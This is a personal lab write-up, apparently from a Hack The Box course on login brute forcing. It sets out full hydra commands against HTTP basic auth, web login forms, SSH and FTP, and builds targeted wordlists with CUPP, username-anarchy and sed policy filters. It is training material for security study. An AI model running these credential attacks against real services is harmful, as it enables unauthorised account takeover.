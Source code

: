 # Login Brute Forcing
28 August 2023

## Intro
Files storing hashed passes (Linux) `shadow`, `shadow.bak`... Windows is `unattended.xml`, `SAM`...

Tools for brute forcing:
- Ncrack
- wfuzz
- medusa
- patator
- hydra

Module mainly uses hydra. 


## Basic HTTP Auth Brute
> As we don't have any credentials, nor do we have any other ports available, and no services or information about the webserver to be able to use or attack, the only option left is to utilize password brute-forcing.

### Password Attacks
Describing brute force vs dictionary. Common usernames and passes are in the SecLists repo. 


### Default Passwords
Installing hydra can be done via `apt intall hydra -y` or via the [GitHub Repo](https://github.com/vanhauser-thc/thc-hydra). 

Hydra running was easy via its flags and gave result of `admin:admin`


### Username Brute Force
File `rockyou.txt` has 14m entries, sorted by how common they are. *should* be in the SecLists/Passwords/Leaked-Databases/ folder, but also available on the [hashcat repo](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

also utilising a `usernames.txt` file from SecLists. `locate` good command on linux to find files 

In this excercise following flags are added to hydra:
-L for usernames, -P for passwords, -f for the first successful login. -u to loop on usernames per password, instead of loop on passwords per username. 

Weirdly the VM provided by HTB had permissions on the rockyou file, so downloaded it again on the VM. 

```bash
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f $SERVER_IP -s $PORT http-get /
```

Thing ran for 7mins and no results yet. Strange. Answer for the excercise was the same as the previous one. 

## Web Forms Brute Forcing

### Hydra Modules
Many admin panels have also implemented features or elements such as the [b374k shell](https://github.com/b374k/b374k) that might allow us to execute OS commands directly. 

Recommended you do the top 10 admin creds to limit your network presence. 

Hydra supports many different request types for the different services. 

As we got through with `admin:admin`, the next page is a `.php` page. So, we should use the `http-post-form` module. 

Hydra will need success / failure criteria for the post module. E.g:
```bash
"/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:F=<form name='login'"
```

Will say that we have failure when we have found "<form name='login'>" (remove the >) in the html content. So success is when we do not have the form for login. 


### Determine Login Params
Check the dev tools with an attempt. Or burp it. We could also copy it as cURL. Gives the creds as the format of ` --data-raw 'username=test&password=test'.`

This then in hydra would be:
```bash
"/login.php:username=admin&password=admin:F=<form name='login'"
```

for the credentials of admin & admin. 


### Login Form Attacks
using `ftp-betterdefaultpasslist.txt` from SecLists as a starting point:
```bash
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt $IP -s $PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```
This did not work, but ran quickly. 

Trying a password wordlist with some known users such as `admin, asministrator, wpadmin, root, adm`.

```bash
hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f $IP -s $PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

Ran into problems when there was no "=" between the F and failure criteria.

### Personalised wordlists
Gathering information about them needed, here are some to make some wordlists based on information gathered.

#### CUPP
install via `sudo apt install cupp` or [GitHub Repo](https://github.com/Mebus/cupp). The interactive session is helpful via `cupp -i`. 

But, if we know there is a password policy then we will have to do some trimming of the text file. This can be done with `sed`. 

```bash
sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers
```

#### Mangling
We never truly know how our target thinks, so we should add some permutations to the passwords via things like [rsmangler](https://github.com/digininja/RSMangler) or [The Mantelist](https://github.com/sc0tfree/mentalist). Making the list longer increases chances, but also time to run.


#### Custom username list
Also consider the username of the person. Bill Gates could have a username of `b.gates` or `gates` or even `bigbillsy`. We can use [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) and run via terminal:

```bash
./username-anarchy Bill Gates > bill.txt
```


### SSH Attack
Simply change the protocol for hydra, so `ssh://` instead of `http-get` at the end.

```bash
hydra -L bill.txt -P william.txt -u -f ssh://$IP:$PORT -t 4
```

This gave a username and password, so then login:
```bash
ssh b.gates@$IP -p $PORT
```

Gave flag of `flag.txt` and then when we `ls /home` we can see another user of `m.gates` along with seeing what ports are open with `netstat -antp | grep -i list`. Doing `which hydra` also shown it, which means we can run it under Bills account. `rockyou-10.txt` was provided locally to run on the FTP port.


```bash
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1 
```

This surprisingly worked, though it did not show the IPv4 port open, just IPv6. FTP-ing in on bills machine to m.gates:
```bash
ftp 127.0.0.1
```
Then provide `m.gates` as user with `computer` as password. Running `dir` shows the directory listing. Running `get flag.txt` then downloaded it to bills local, overwriting the previous flag.txt. it is now `HTB{1_4m_@_bru73_f0rc1n6_m4573r}`. Changing users via `su - m.gates` and typing in the password just seems lucky(?) but the flag is the same there to confirm. 


### Assessment - Brute Forcing
Successful first try on Q1 running:
```bash
hydra -C SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt $IP -s $PORT http-get /
```
creds came quick which led to flag when logging in. 


Second stage is a http post, need to find user and pass. Trying a range from earlier:
```bash
hydra -l user -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f $IP -s $PORT http-post-form "/admin_login.php:user=^USER^&pass=^PASS^:F=<form name='login'"
```

Had to re-download the rockyou file which was a little fiddly due to no shared clipboard. `user` and `123456` were given but does not seem to work. Trying a list of top admins from `SecLists/Usernames/top-usernames-shortlist.txt` gives another one of `root` and `123456`

Ah so looking at the HTML, the form is called "log-in" and not "login", repeating above with the edit now gives

### Assessment - Service
Q2 - ssh brute forcing 
Password poligy on the admin page:
Must be 8 characters or longer
Must contain numbers
Must contain special characters

Taking its time.....

Finally got a quick hit thanks to:
1. Generating a password file from just harry potter, no other information
2. Truncate file using sed like before
3. ran `hydra -L harry-usr.txt -P harry-pss.txt` with flags `-f` and `-u`. Hit with `harry.potter` and pass `H4rry!!!`

Now looking for ports, there is a 21 like before. So repeating:

```bash
hydra -l g.potter -P rockyou-30.txt ftp://127.0.0.1 -p 21
```

Think this was purposefully chosen to make me wait before finding a login. Finally worked with password harry and repeated steps abpve to get the final flag. 
